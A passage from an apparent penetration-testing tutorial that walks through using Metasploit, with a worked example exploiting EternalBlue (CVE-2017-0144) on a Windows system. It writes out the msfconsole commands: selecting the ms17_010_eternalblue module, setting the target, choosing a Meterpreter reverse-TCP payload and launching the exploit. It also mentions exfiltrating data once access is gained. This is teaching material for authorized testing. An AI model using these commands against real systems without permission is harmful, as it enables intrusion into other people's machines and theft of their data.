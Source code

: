 6. **Set Options**:
   - Before running the exploit, you may need to configure options such as the target IP address, port, and payload.
   - Use the `show options` command to view available options, and the `set` command to configure them.

7. **Run the Exploit**:
   - Once options are set, use the `exploit` command to launch the exploit against the target.
   - Metasploit will attempt to exploit the vulnerability and gain access to the target system.

### Practical Life Example:

Suppose you're conducting a penetration test of a corporate network and discover a Windows system vulnerable to the EternalBlue exploit (CVE-2017-0144). You decide to use Metasploit to exploit this vulnerability and gain access to the target system. Here's how you can use Metasploit in this scenario:

1. **Launch Metasploit**:
   - Open a terminal window and launch Metasploit by running the `msfconsole` command.

2. **Search for the EternalBlue Exploit**:
   - Use the `search` command to search for the EternalBlue exploit module:
     ```
     search EternalBlue
     ```

3. **Select and Configure the Exploit**:
   - Select the EternalBlue exploit module using the `use` command:
     ```
     use exploit/windows/smb/ms17_010_eternalblue
     ```
   - Set the target IP address and payload options:
     ```
     set RHOST <target_IP>
     set payload windows/meterpreter/reverse_tcp
     ```

4. **Run the Exploit**:
   - Once options are set, run the exploit using the `exploit` command:
     ```
     exploit
     ```

5. **Gain Access to the Target System**:
   - Metasploit will attempt to exploit the EternalBlue vulnerability and gain access to the target Windows system.
   - Upon successful exploitation, you'll gain a Meterpreter session, allowing you to interact with the target system, execute commands, and exfiltrate data.

By using Metasploit, you can efficiently exploit known vulnerabilities, gain unauthorized access to systems, and demonstrate the potential impact of security weaknesses to stakeholders. Always ensure that you have proper authorization before conducting penetration tests and adhere to ethical guidelines and legal requirements.

Stay tuned for the next lesson where we will explore another essential tool for network penetration testing: Ncat.
